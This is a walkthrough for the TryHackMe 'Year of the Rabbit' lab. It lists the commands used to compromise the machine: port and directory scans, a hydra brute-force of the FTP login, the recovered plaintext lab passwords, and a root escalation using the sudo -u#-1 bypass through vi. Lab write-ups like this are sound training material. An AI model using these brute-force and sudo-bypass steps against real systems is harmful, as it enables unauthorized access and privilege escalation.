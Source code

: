 # Year of the Rabbit

**Room Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (6).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (30) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Turn off Javascript

```
Enter about:config into the search bar and select Accept the Risk and Continue.
Enter javascript.enabled into the search box at the top of the page.
Select the javascript.enabled toggle to change the value to false.
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (79) (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings Hot_Babe.png 
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l ftpuser -P passwords.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## FTP

**Kali**

```
ftp $VICTIM
password: 5iez1wGXKfPKQ
```

<figure><img src="../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48) (5).png" alt=""><figcaption></figcaption></figure>

Elis creds is encoded with something called Brain fuck. There are tools online to decode it.

**Link:** [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh eli@$VICTIM
Password: DSpDiM1wAEwid
```

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate s3cr3t
cat cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```

<figure><img src="../../.gitbook/assets/image (64) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su gwendoline
Password: MniVCQVhQHUNI
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## **Privilege escalation**

Mostly followed the link below, we can't run sudo with root as we have (ALL , !root) here. if we had (ALL , ALL) it would be easy to escalate. Adding sudo -u#-1  to infront of the command allows us to bypass this.

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
#While vi is open run:
:!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (75) (2).png" alt=""><figcaption></figcaption></figure>























